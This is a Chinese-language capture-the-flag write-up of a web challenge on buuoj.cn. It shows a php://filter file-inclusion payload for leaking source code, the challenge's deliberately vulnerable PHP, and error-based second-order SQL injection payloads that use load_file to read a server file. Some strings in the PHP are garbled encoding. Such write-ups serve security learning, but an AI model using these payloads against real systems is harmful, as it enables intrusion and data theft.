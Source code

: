 刚比赛完的一段时间期末考试云集，没有时间复现题目。趁着假期，争取多复现几道题。
#### 复现平台
buuoj.cn
#### 解题过程
首先进入题目页面
![index](https://markdown-1255584210.cos.ap-chengdu.myqcloud.com/day1web1/index.png)

看起来没有什么特别的，就是一个可以提交信息的页面。查看响应报文也没有什么提示，但是在网页注释里有东西。

```html
<!--?file=?-->
```

这里可能有一个文件包含，尝试payload
```txt
http://xxx.xxx/index.php?file=php://filter/convert.base64-encode/resource=index.php
```
结果得到了当前页面经过加密后的源码
![源码](https://markdown-1255584210.cos.ap-chengdu.myqcloud.com/day1web1/base64.png)

>有关伪协议的内容，可以大致参考下这篇文章：https://www.cnblogs.com/dubhe-/p/9997842.html

```php
<?php
ini_set('open_basedir', '/var/www/html/');

// $file = $_GET["file"];
$file = (isset($_GET['file']) ? $_GET['file'] : null);
if (isset($file)){
    if (preg_match("/phar|zip|bzip2|zlib|data|input|%00/i",$file)) {
        echo('no way!');
        exit;
    }
    @include($file);
}
?>
//HTML页面的代码省略，保留之前说的注释
<!--?file=?-->
```
用同样的方法，根据表单中暴露的位置，获取confirm.php,change.php,search.php等页面的内容。
```php
<?php
#change.php
require_once "config.php";

if(!empty($_POST["user_name"]) && !empty($_POST["address"]) && !empty($_POST["phone"]))
{
    $msg = '';
    $pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';
    $user_name = $_POST["user_name"];
    $address = addslashes($_POST["address"]);
    $phone = $_POST["phone"];
    if (preg_match($pattern,$user_name) || preg_match($pattern,$phone)){
        $msg = 'no sql inject!';
    }else{
        $sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";
        $fetch = $db->query($sql);
    }

    if (isset($fetch) && $fetch->num_rows>0){
        $row = $fetch->fetch_assoc();
        $sql = "update `user` set `address`='".$address."', `old_address`='".$row['address']."' where `user_id`=".$row['user_id'];
        $result = $db->query($sql);
        if(!$result) {
            echo 'error';
            print_r($db->error);
            exit;
        }
        $msg = "è®¢åä


```

```php
<?php
#search.php
require_once "config.php"; 

if(!empty($_POST["user_name"]) && !empty($_POST["phone"]))
{
    $msg = '';
    $pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';
    $user_name = $_POST["user_name"];
    $phone = $_POST["phone"];
    if (preg_match($pattern,$user_name) || preg_match($pattern,$phone)){ 
        $msg = 'no sql inject!';
    }else{
        $sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";
        $fetch = $db->query($sql);
    }

    if (isset($fetch) && $fetch->num_rows>0){
        $row = $fetch->fetch_assoc();
        if(!$row) {
            echo 'error';
            print_r($db->error);
            exit;
        }
        $msg = "<p>å§å:".$row['user_name']."</p><p>, çµè¯:".$row['phone']."</p><p>, å°å:".$row['address']."</p>";
    } else {
        $msg = "æªæ¾å°è®¢å!";
    }
}else {
    $msg = "ä¿¡æ¯ä¸å¨";
}
?>
#无用的HTML代码省略
```

分析代码可以知道，每个涉及查询的界面都过滤了很多东西来防止SQL注入，而且过滤的内容非常广泛，很难进行注入。

但是尽管username和phone过滤非常严格，而address却只是进行了简单的转义。经过分析便找到了可以利用的地方。这里提取了一些change.php中和address相关的部分。
```php
$address = addslashes($_POST["address"]);
if (isset($fetch) && $fetch->num_rows>0){
        $row = $fetch->fetch_assoc();
        $sql = "update `user` set `address`='".$address."', `old_address`='".$row['address']."' where `user_id`=".$row['user_id'];
        $result = $db->query($sql);
        if(!$result) {
            echo 'error';
            print_r($db->error);
            exit;
        }
```
可以看出，address会被转义，然后进行更新，也就是说单引号之类的无效了。但是，在地址被更新的同时，旧地址被存了下来。如果第一次修改地址的时候，构造一个含SQL语句特殊的payload，然后在第二次修改的时候随便更新一个正常的地址，那个之前没有触发SQL注入的payload就会被触发。

思路有了以后，接下来就是构造payload，下面将借助报错注入来构造payload。

#### payload构造
```txt
1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),1,20)),0x7e),1)#
```
>直接load_file不能显示全，这里分两次构造payload。

```txt
1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),20,50)),0x7e),1)#
```

结果如下
![半个flag](https://markdown-1255584210.cos.ap-chengdu.myqcloud.com/day1web1/error.png)
![余下flag](https://markdown-1255584210.cos.ap-chengdu.myqcloud.com/day1web1/flag.png)

#### payload使用

两个payload的使用方法为：

先在初始页面随便输数据，记住姓名电话
![余下flag](https://markdown-1255584210.cos.ap-chengdu.myqcloud.com/day1web1/givemoney.png)

接着修改地址，地址修改为所构造的payload。修改之后再次修改，将地址设置为随便一个正常值，比如1，这样就能看到报错页面。
![修改地址](https://markdown-1255584210.cos.ap-chengdu.myqcloud.com/day1web1/change.png)

如果想要使用新的payload，只需要删除订单在重复以上操作即可。
![删除订单](https://markdown-1255584210.cos.ap-chengdu.myqcloud.com/day1web1/delete.png)
